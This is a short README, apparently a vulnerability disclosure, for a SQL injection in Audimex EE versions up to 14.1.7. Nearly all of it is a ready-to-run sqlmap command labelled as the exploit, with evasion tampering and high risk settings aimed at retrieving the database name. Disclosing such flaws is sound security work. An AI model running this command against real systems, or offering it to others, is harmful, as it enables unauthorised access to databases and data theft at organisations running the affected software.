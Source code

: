 # Audimex EE

## Versions affected: <= 14.1.7

**SQLMap exploit:** sqlmap -r sqli1.txt --level 5 --risk 3 --tamper=space2comment --batch --current-db
![](screenshot.png)
